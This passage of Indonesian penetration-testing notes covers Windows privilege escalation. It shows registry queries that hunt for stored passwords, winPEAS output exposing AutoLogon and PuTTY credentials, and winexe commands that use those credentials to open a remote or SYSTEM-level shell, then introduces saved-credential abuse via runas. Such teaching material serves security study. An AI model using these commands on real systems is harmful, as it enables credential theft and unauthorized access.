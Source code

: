 Ada lagi password yang disimpan pada WIndows registry cara untuk mencari password di registry adalah 
```
reg query HKLM /f password /t REG_SZ /s

atau 

reg query HKCU /f password /t REG_SZ /s
```

terkadang banyak hasilnya, coba saring lagi. 

#### Recon
```
winPEASany.exe quiet filesinfo userinfo
```
Hasilnya akan sangat banyak , contohnya winpeas akan mencari user autologon :

```
[+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultUserName               :  admin
    DefaultPassword               :  password123

```

ada juga putty session
```
+] Putty Sessions()
    SessionName: BWP123F42
    ProxyPassword: password123
    ProxyUsername: admin

```

Untuk melakukan verifikasi terkait user autologoun kita bisa gunakan command berikut :
```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
Pada kali linux kita bisa menggunakan `winexe` untuk mendapatkan akses shell dari target
```
winexe -U 'admin%password123' //192.168.1.9 cmd.exe
```
Untuk menjalankan winexe agar bisa masuk ke privilege SYSTEM (Admin) gunakan perintah
```
winexe -U 'admin%password123' --system //192.168.1.7 cmd.exe
```

### Saved Creds
Pada windows terdapat perintah `runas` dimana kita bisa menjalankan program dengan privilege user lain misalnya admin. Biasanya hal ini membutuhkan password user lain agar bisa dijalankan oleh user kita saat ini. 

Nah, Windows mengizinkan user untuk menyimpan credentials pada system yang disebut dengan Saved Creds, Saved Creds inilah yang bisa kita gunakan untuk melakukan bypass, sehingga kita tidak perlu mengetahui password untuk menjalankan suatu perintah/aplikasi/program dengan privilege user lain. 

